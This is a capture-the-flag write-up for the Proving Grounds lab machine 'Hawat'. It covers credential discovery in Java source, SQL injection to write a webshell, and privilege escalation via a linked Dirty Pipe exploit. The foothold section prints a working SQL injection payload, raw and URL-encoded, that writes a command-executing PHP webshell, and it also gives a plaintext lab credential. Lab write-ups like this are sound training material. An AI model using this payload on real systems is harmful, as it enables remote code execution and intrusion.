# Hawat -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Hawat (Proving Grounds)
**Author:** dsec
**Date:** 2025-10-17

---

## TL;DR

### Found hardcoded credentials in Java source from Nextcloud. SQL injection to write a PHP webshell. Privesc via Dirty Pipe.
---

## Target info

- Host: `192.168.211.147`
- Services discovered: multiple ports including `50080/tcp (http)`

---

## Enumeration







Potential privesc: Dirty Pipe (`https://www.exploit-db.com/exploits/50808`)



---

## Foothold

`http://192.168.211.147:50080/cloud/` goes to Nextcloud. Downloaded a zip and reviewed Java files, found hardcoded credentials in `issueController.java`:



- `issue_user:ManagementInsideOld797`





Found subdirectory with correct capitalization:









SQL injection to write a PHP webshell. The payload from the guide was missing dashes at the end. Correct payload:

```
' union select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

URL encoded:

```
%27%20union%20select%20%27%3C%3Fphp%20echo%20system%28%24_REQUEST%5B%22cmd%22%5D%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fsrv%2Fhttp%2Fcmd.php%27%20--%20-
```





---

## Privilege escalation



---

## Lessons & takeaways

- Always review source code downloaded from file shares for hardcoded credentials
- SQL injection `INTO OUTFILE` can write webshells directly to the web root
- Don't forget the trailing `-- -` in SQL injection payloads
- Check kernel version for Dirty Pipe vulnerability
---
